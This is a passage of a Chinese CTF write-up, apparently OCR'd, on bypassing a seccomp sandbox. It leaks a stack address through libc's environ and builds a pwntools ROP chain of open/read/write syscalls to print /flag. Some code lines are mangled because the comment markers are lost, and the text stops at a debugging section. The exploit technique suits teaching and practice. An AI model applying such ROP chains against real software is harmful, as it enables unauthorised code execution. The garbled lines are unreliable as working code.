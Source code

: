 


 ROP绕过seccomp

程序有 `seccomp` 保护，只允许 `read` 、 `write` 、 `open` 和 `exit` 

于是我们需要通过向栈上写入ROP的方式来读flag，首先计算栈帧

泄露环境变量地址来计算栈帧（注意第4本书我们之前设置了指向自身，因此可以反复编辑）


```python
     leak stack (environ)
    edit(4, pwn.flat([
             1==
            0xff,  sz
            libc.sym.environ  target
        ], filler = b"\x00"))
```

栈帧地址：也就是调用这个函数返回的ret地址




获得栈帧地址后，使用 `pwntools` 自带的 rop 模块来实现

```python
rop = pwn.ROP(libc, base=stackframe_rewrite)

 setup the write to the rewrite stackframe
edit(4, pwn.flat([
         1==
        0xff,  sz
        stackframe_rewrite  target
    ], filler = b"\x00"))

 ROPchain
rop(rax=pwn.constants.SYS_open, rdi=stackframe_rewrite + 0xde + 2, rsi=pwn.constants.O_RDONLY)  open
rop.call(rop.find_gadget(["syscall", "ret"]))
rop(rax=pwn.constants.SYS_read, rdi=3, rsi=heap_leak, rdx=0x100)  file descriptor bf ...
rop.call(rop.find_gadget(["syscall", "ret"]))

rop(rax=pwn.constants.SYS_write, rdi=1, rsi=heap_leak, rdx=0x100)  write
rop.call(rop.find_gadget(["syscall", "ret"]))
rop.exit(0x1337)
rop.raw(b"/flag\x00")
```


 EXP调试

由于堆内存布局的原因，地址可能不一样，这里记录某次调试过程：

 分配4个chunk

Book的结构如下：

